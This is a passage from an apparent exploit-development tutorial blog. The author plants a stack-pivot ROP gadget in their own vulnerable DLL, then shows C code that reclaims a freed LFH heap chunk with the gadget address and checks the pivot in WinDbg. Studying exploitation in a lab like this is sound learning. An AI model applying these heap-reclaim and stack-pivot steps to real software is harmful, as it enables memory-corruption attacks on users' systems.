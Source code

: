 <img width="897" alt="Screenshot 2025-01-24 at 08 02 35" src="https://github.com/user-attachments/assets/1c074fb5-2efd-4d6c-b437-7b14ac1de8e0" style="border: 1px solid black;" />

This should come as no surprise. I am exploring exploit development techniques, so I simply planted this rop chain in my code (in a more realistic scenario it is going to be a bit more difficult to find a ROP gadget that will achieve our objective). I added an `asm` function to the vulnerable DLL:

```asm
.CODE

ROPGadgets PROC

	mov rsp, rbx;
	ret;

ROPGadgets ENDP

END
```

Now we have a ROP gadget to pivot the stack we can change our exploit code to brute force the freed LFH chunk with our stack pivot gadget:

```c
// attempt to reallocate to the freed memory
LPVOID alloc = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0xb0);
if (alloc != NULL)
{
    memset(alloc, 0x41, 0xb0);
    *(LONGLONG*)alloc = (LONGLONG)(dllBase + 0x1290);                           // mov rsp, rbx ; ret ;
}                                                                               // rbx points to our general buffer (rop chain)

// brute force the LFH
for (size_t c = 0; c < 0x100; c++)
{
    Allocate(alloc, 0xb0);
}
```

Testing this in `WinDbg` by adding a breakpoint on `VulnDll + 0x1290` we can test our theory out:

<img width="944" alt="Screenshot 2025-01-24 at 08 10 42" src="https://github.com/user-attachments/assets/33da2c65-c882-476f-8e74-ff107c4ee367" style="border: 1px solid black;" />

When we run the application we hit our breakpoint. We can step through `mov rsp, rbx` and then `ret` and we get an `Access Violation`; this is good! If we look at where `rsp` now points, it points to the general buffer. This means we have pivoted our stack to an area of memory that we control. We can write a test ROP chain to this memory next.

## Test ROP Chain

In the final part of this blog I will write to the general buffer with a test ROP chain; basically some ROP NOPs and an `int3` instruction. Just to prove that it works as intended:
